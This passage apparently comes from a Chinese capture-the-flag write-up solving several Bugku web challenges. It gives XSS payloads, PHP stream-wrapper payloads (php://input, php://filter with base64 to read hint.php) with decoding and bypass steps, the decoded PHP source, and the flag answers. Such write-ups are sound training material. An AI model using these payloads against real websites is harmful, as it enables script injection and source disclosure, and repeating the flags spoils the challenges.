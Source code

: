 		alert('Flag:17f094325e90085b30a5ddefce34acd8')
		
		payload:
		http://103.238.227.13:10089/?id=\u003cscript\u003ealert(_key_)\u003c/script\u003e
		http://103.238.227.13:10089/?id=\u003cimg%20src=1%20onerror=alert(_key_)\u003e

25. never give up 100
	>http://120.24.86.145:8006/test/hello.php
	>
	
	解答：

		查看网页源代码，注释中有<!--1p.html-->
		直接访问1p.html,发现有301重定向，抓包查看或者利用viewsource
			view-source:http://120.24.86.145:8006/test/1p.html
		对网页中的js进行urldecode,得到based64编码的内容，然后再进行一次url解码

		payload:
			http://120.24.86.145:8006/test/hello.php?id=.&a=php://input&b=%00123456
			post:bugku is a nice plateform!

		直接访问http://120.24.86.145:8006/test/f4l2a3g.txt

		urldecode、二次编码及其绕过
		base64decode
		stripos及其绕过
		php伪协议
			http://php.net/manual/zh/wrappers.php.php
		id=0弱类型
		strlen()
		eregi及其绕过
		substr及其绕过
		
		flag{tHis_iS_THe_fLaG} 

26. welcome to bugkuctf 100
	>http://120.24.86.145:8006/test1/

	解答：

		参考文章：http://pupiles.com/suibi2.html

		http://120.24.86.145:8006/test1/?txt=php://input&file=php://filter/read=convert.base64-encode/resource=hint.php&password=
		welcome to the bugkuctf

	```PD9waHAgIA0KICANCmNsYXNzIEZsYWd7Ly9mbGFnLnBocCAgDQogICAgcHVibGljICRmaWxlOyAgDQogICAgcHVibGljIGZ1bmN0aW9uIF9fdG9zdHJpbmcoKXsgIA0KICAgICAgICBpZihpc3NldCgkdGhpcy0+ZmlsZSkpeyAgDQogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgDQoJCQllY2hvICI8YnI+IjsNCgkJcmV0dXJuICgiZ29vZCIpOw0KICAgICAgICB9ICANCiAgICB9ICANCn0gIA0KPz4gIA==```

		<?php  
  
		class Flag{//flag.php  
		    public $file;  
		    public function __tostring(){  
		        if(isset($this->file)){  
		            echo file_get_contents($this->file); 
					echo "<br>";
				return ("good");
		        }  
		    }  
		}  
		?>   
